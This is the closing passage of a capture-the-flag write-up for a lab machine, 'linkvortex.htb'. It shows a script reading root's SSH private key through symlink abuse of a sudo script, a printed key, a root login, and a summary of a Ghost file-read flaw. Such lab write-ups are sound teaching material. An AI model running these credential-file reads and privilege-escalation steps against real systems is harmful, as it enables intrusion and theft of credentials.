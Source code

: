 We run the script to get the root private key:
```bash
chmod +x exploit.sh
./exploit.sh /root/.ssh/id_rsa | tee key.txt
```
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmpHVhV11MW7eGt9WeJ23rVuqlWnMpF+FclWYwp4SACcAilZdOF8T
q2egYfeMmgI9IoM0DdyDKS4vG+lIoWoJEfZf+cVwaZIzTZwKm7ECbF2Oy+u2SD+X7lG9A6
...
xmo6eXMvU90HVbakUoRspYWISr51uVEvIDuNcZUJlseINXimZkrkD40QTMrYJc9slj9wkA
ICLgLxRR4sAx0AAAAPcm9vdEBsaW5rdm9ydGV4AQIDBA==
-----END OPENSSH PRIVATE KEY-----
```

We set the correct permissions and login as root:
```bash
chmod 600 key.txt
ssh -i key.txt root@linkvortex.htb
whoami
```
```
root
```

We can now read the root flag:
```bash
cat /root/root.txt
```
```
root flag value
```

## Conclusion
In this writeup, we exploited a Ghost blogging platform vulnerability to read arbitrary files and obtain user credentials. We then leveraged a misconfigured sudo script to escalate our privileges to root by exploiting symlink behavior. This allowed us to read the root SSH private key and gain full control of the machine.

